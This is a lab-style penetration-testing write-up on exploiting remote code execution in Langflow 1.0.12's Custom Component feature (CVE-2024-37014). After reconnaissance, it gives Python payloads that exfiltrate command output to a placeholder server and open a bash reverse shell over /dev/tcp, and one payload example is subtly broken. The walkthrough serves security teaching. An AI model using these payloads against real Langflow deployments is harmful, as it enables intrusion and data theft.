

# Writeup

## **1. Introduction**

This writeup details the penetration testing methodology used to discover and exploit a Remote Code Execution (RCE) vulnerability in Langflow’s Custom Component feature. The goal is to approach the pentest as an external attacker, moving from reconnaissance to full exploitation.

---

## **2. Reconnaissance**

### **2.1 Identifying the Target**

We begin by scanning the target network to identify open ports and services using **Nmap**. This allows us to determine what services are running and if there are any potential attack vectors.

```bash
nmap -sC -sV -A -p- <LAB_IP>
```

Output:



From the scan results, we observe that an **HTTP service is running on port 7860**, serving a web application via **Uvicorn**, a common ASGI server for Python applications. The HTTP response contains **"Langflow"** in the `<title>` tag, strongly indicating that this service is running **Langflow**.

### **2.2 Web Enumeration**

Once we identify a web service, the next step is to gather more information about it.

### **Checking the Langflow UI**

We open the web application in our browser by navigating to `http://<LAB_IP>:7860`. The Langflow interface loads, confirming that the service is active.


The version doesn’t seem to be on the frontpage so we start a **new Blank Flow project** within Langflow. 


While exploring the UI, we notice a **button on the bottom-left corner** that displays the version number when we hover over it. By doing this, we confirm that **Langflow v1.0.12** is in use.


---

## **3. Vulnerability Research**

### **3.1 Checking for Known CVEs**

Since we identified Langflow **1.0.12**, the next logical step is to check if there are any known vulnerabilities for this version. We manually check online sources such as:

- [Exploit-DB](https://www.exploit-db.com/)
- [CVE Details](https://www.cvedetails.com/)
- [GitHub Security Advisories](https://github.com/advisories)

During our research, we discover that the **Custom Component feature** allows arbitrary Python execution, making it a potential entry point for **Remote Code Execution (RCE)**.

### **3.2 Vulnerability Overview: Remote Code Execution (RCE) via Custom Component Feature**

Langflow’s **Custom Component** feature is designed to let users create and execute their own Python scripts within the framework. While this is a powerful tool for extending functionality, it introduces a critical security flaw when Langflow is hosted online.

The issue lies in the **`POST /api/v1/custom_component`** endpoint, which processes user-supplied Python scripts without proper validation or sandboxing. This means an attacker can craft a malicious payload, send it to the server, and execute arbitrary Python code—effectively gaining full control over the system.

Without restrictions on what code can be executed, this feature becomes a direct gateway to **Remote Code Execution (RCE)**. If exploited, an attacker could install backdoors, exfiltrate sensitive data, or pivot deeper into the network. This vulnerability, tracked as **CVE-2024-37014**, highlights the dangers of executing user-provided code in an unsanitized environment.

<aside>
💡

**CVE-2024-37014**  is a critical vulnerability affecting **Langflow versions up to (and including) 0.6.19** yet it seems to still affect **version 1.0.12**

</aside>

---

## **4. Exploitation**

### **4.1 Exploiting the Custom Component Feature**

Since the **Custom Component** feature allows users to upload custom Python scripts, we attempt to execute arbitrary system commands.

### **Step 1: Create a New Project**

Start by initializing a new project within the Langflow application. This will serve as the base for testing the vulnerability.

Click on the New Project button:


Choose a Blank Flow:


Search for "Custom Components" in the menu on the left.

Drag and drop a custom component onto the blank canvas:


Click on the code icon that appears on-top of the component to open the Edit Code window:


### **Step 2: Implement Malicious Python Function:**

Within the `Component` class of the `CustomComponent`, include the following Python function. This function is designed to execute arbitrary system commands and send the output to our server:

```python
import subprocess
import requests
import base64

def execute_and_send():
    result = subprocess.run(['uname', '-a'], capture_output=True, text=True)
    if result.stderr:
        print("Error:", result.stderr)
        return
    encoded_output = base64.b64encode(result.stdout.encode()).decode()
    requests.get(f"http://<YOUR-SERVER>/?data={encoded_output}")

execute_and_send()
```

This script uses Python's `subprocess` module to execute a system command (`uname -a`), which returns system information. It then Base64 encodes the output and sends it to a server via a `GET` request, where the data is sent as a query parameter.

<aside>
💡

Be sure to include the payload into the component’s code not just replace it.

</aside>

This is an example of what the custom component code would look like with the payload injected:

```python
# from langflow.field_typing import Data
from langflow.custom import Component
from langflow.io import MessageTextInput, Output
from langflow.schema import Data
import subprocess
import base64

class CustomComponent(Component):
    display_name = "Custom Component"
    description = "Use as a template to create your own component."
    documentation: str = "http://docs.langflow.org/components/custom"
    icon = "custom_components"
    name = "CustomComponent"

    inputs = [
        MessageTextInput(name="input_value", display_name="Input Value", value="Hello, World!"),
    ]

    outputs = [
        Output(display_name="Output", name="output", method="build_output"),
    ]

    def build_output(self) -> Data:
        data = Data(value=self.input_value)
        self.status = data
        return data
    
    def execute_and_send():
        # Execute arbitrary system command
        result = subprocess.run(['uname', '-a'], capture_output=True, text=True)
        if result.stderr:
            print("Error:", result.stderr)
            return
    
        # Base64 encode the output
        encoded_output = base64.b64encode(result.stdout.encode()).decode()
    
        # Make a GET request with the base64 string as a query parameter
        url = f"https://<YOUR-SERVER>?data={encoded_output}"
        response = requests.get(url)

    execute_and_send()

```

### **Step 3: Invoke Custom Component API:**

After creating the custom component with the malicious code, click on the “Check & Save” button in the Langflow UI and run the component with the arrow on the top right of the component. This action triggers the `/api/v1/custom_component` API, which processes the provided Python script.


### **Step 4: Observe Arbitrary Command Execution:**

Once the script is processed, the command (`uname -a`) will execute on the server. The output is captured, encoded in Base64, and sent to the specified malicious server via the `GET` request.

### **Step 5: Establishing a Reverse Shell**

To gain persistent access, we upgrade our exploit to create a **reverse shell**:

```python
# from langflow.field_typing import Data
from langflow.custom import Component
from langflow.io import MessageTextInput, Output
from langflow.schema import Data
import subprocess

class CustomComponent(Component):
    display_name = "Custom Component"
    description = "Use as a template to create your own component."
    documentation: str = "http://docs.langflow.org/components/custom"
    icon = "custom_components"
    name = "CustomComponent"

    inputs = [
        MessageTextInput(name="input_value", display_name="Input Value", value="Hello, World!"),
    ]

    outputs = [
        Output(display_name="Output", name="output", method="build_output"),
    ]

    def build_output(self) -> Data:
        # Store the reverse shell command in result
        result = subprocess.run(
            ["bash", "-c", "bash -i >& /dev/tcp/<YOUR-SERVER>/1234 0>&1"],
            capture_output=True,
            text=True
        )

        if result.stderr:
            return Data(value=f"Error: {result.stderr}")
        
        return Data(value="Command executed")
```

We start a listener on our machine:

```bash
nc -lvnp 1234
```

We Check and Save our Custom Component code then press run.

After executing the payload, we receive a shell on the target machine, confirming **Remote Code Execution.**


---

## **7. Conclusion**

This penetration test demonstrates how an attacker can leverage the insecure execution of user-defined Python scripts within Langflow’s **Custom Component feature** to gain **Remote Code Execution (RCE)**.